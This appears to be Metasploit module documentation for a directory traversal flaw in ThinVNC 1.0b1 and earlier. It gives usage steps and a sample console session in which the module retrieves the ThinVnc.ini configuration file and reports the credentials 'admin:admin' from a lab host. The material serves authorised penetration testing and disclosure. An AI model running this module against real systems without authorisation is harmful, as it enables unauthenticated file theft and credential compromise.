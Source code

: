 ## Description

  This module exploits a directory traversal vulnerability in ThinVNC
  versions 1.0b1 and prior which allows unauthenticated users to retrieve
  arbitrary files, including the ThinVNC configuration file.

## Vulnerable Application

  This module has been tested successfully on ThinVNC versions 1.0b1
  and "ThinVNC_Latest" (2018-12-07).

  ThinVNC is available on [Sourceforge](https://sourceforge.net/projects/thinvnc/files/).

## Verification Steps

  1. `./msfconsole`
  2. `use auxiliary/scanner/http/thinvnc_traversal`
  3. `set rhosts <rhost>`
  4. `run`

## Scenarios

  ### ThinVNC version 1.0b1 on Windows XP SP3

  ```
  msf5 > use auxiliary/scanner/http/thinvnc_traversal 
  msf5 auxiliary(scanner/http/thinvnc_traversal) > set rhosts 172.16.123.123
  rhosts => 172.16.123.123
  msf5 auxiliary(scanner/http/thinvnc_traversal) > run

  [+] File ThinVnc.ini saved in: /root/.msf4/loot/20191017033828_default_172.16.123.123_thinvnc.traversa_713640.txt
  [+] Found credentials: admin:admin
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed

  msf5 auxiliary(scanner/http/thinvnc_traversal) > 
  ```

